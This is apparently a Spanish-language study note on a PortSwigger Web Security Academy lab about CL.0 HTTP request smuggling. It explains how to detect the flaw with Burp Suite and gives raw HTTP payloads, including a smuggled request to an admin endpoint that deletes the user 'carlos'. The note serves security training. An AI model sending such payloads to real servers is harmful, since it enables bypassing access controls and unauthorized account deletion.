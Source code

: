 ```yaml
---
layout: default
title: 15 - CL.0 request smuggling
---
```

Básicamente el CL.0 Significa que el frontend va a entender perfectamente el content-length , pero el backend simplemente no se esperaba una petición POST , asi que no interpreta nada y cree que todo lo que va después de las cabeceras es una nueva petición.

```HTTP
POST / HTTP/1.1/r/n
Host: 0a11001704e5a26881a1203e008800f5.web-security-academy.net/r/n
Content-Length: 27/r/n
Content-Type: application/x-www-form-urlencoded; charset=utf-8/r/n
Connection: keep-alive/r/n
/r/n
GET /404 HTTP/1.1/r/n
Foo: bar
```

Después de esto haces una petición normal, usando los groups de burpsuite y enviándola una detrás de otra con single connection : 

Tira código de estado esperado en ambas : no vulnerable
Tira código de estado esperado y en la otra 404 : vulnerable

Este si que tira 404 la segunda : 

```HTTP
POST /resources/images HTTP/1.1/r/n
Host: 0a11001704e5a26881a1203e008800f5.web-security-academy.net/r/n
Content-Length: 27/r/n
Content-Type: application/x-www-form-urlencoded; charset=utf-8/r/n
Connection: keep-alive/r/n
/r/n
GET /404 HTTP/1.1/r/n
Foo: bar
```

Normalmente este método suele funcionar en endpoints que no esperaban peticiones POST, solo GET.

```HTTP
POST /resources/images HTTP/1.1
Host: 0a11001704e5a26881a1203e008800f5.web-security-academy.net
Content-Length: 52
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: keep-alive

GET /admin/delete?username=carlos HTTP/1.1
Foo: bar
```
